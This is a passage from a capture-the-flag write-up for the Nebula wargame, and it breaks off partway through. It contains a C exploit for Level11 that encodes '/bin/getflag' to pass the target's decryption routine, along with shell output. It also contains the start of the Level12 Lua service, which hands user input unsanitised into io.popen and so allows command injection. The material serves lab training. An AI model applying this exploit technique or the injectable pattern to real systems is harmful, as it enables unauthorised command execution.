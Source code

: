 
The second way is to use input with the length at least 1024. The decryption
routine is almost symmetric. However, in this step `key -= buffer[i];` we need
to substract from key the original value, so we XOR it with the key again.

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv) {

    unsigned int key;
    int i, length = 1024;
    char buffer[1024] = {0}; 
    char cmd[] = "/bin/getflag";
    int  cmd_length = strlen(cmd);

    memcpy(buffer, cmd, cmd_length);

    key = length & 0xff;

    for (i = 0; i <= cmd_length; i++) {
        buffer[i] ^= key;
        key -= buffer[i] ^ key;
    }   

    fprintf(stdout, "Content-Length: 1024\n");
    fwrite(buffer, 1, length, stdout);

    return 0;
}
```

```
sh-4.2$ export TEMP=/tmp
sh-4.2$ ./exploit11 | /home/flag11/flag11 
blue = 1024, length = 1024, pink = 1024
getflag is executing on a non-flag account, this doesn't count
```

# Level12
The code below should be backdoored:

```lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 50001))

function hash(password)
  prog = io.popen("echo "..password.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local line, err = client:receive()
  if not err then
      print("trying " .. line) -- log from where ;\
```
